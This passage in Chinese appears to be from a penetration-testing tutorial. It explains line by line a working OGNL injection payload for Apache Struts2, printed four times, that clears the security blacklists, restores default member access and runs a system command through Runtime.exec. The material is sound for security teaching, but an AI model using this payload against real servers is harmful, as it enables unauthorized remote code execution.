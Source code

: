 由于我们还没有上下文，我们需要检索上下文映射，可以通过访问`ActionContext.container`来完成。现在可以访问此容器，因为我们已经从`struts.valueStack`请求了上下文。请参考我们负载的以下突出显示行：

```
${(*#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS*).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

现在我们已经可以访问上下文映射（请参考我们负载的第一行突出显示），我们现在可以清除黑名单，以便访问`DefaultMemberAccess`对象，该对象没有限制。我们的负载的第二行突出显示行就是这样做的：

```
${(*#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS*).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

一旦`clear()`方法被处理并且我们已经清除了黑名单，我们现在可以使用`setMemberAccess()`方法设置为`DEFAULT_MEMBER_ACCESS`来设置`MemberAccess`。请参考负载中的以下突出显示文本：

```
${(*#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS*).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

现在我们已经可以访问`DEFAULT_MEMBER_ACCESS`对象，我们可以从 Java 常用实用程序包中调用任何类、方法和对象来在 OGNL 中运行。在这种情况下，我们将使用`Runtime().exec()`方法来执行我们的命令（`#a=@java.lang.Runtime@getRuntime().exec('id')`），并且为了在响应中打印命令执行输出，我们将使用`getinputStream()`方法，如负载的最后两行所示：

```
${(*#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS*).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

现在我们对负载有了更好的理解，让我们在请求中使用负载，如下面的屏幕截图所示：

![](img/ef923dc9-8c88-4f0f-8edf-f4acfbecf143.png)
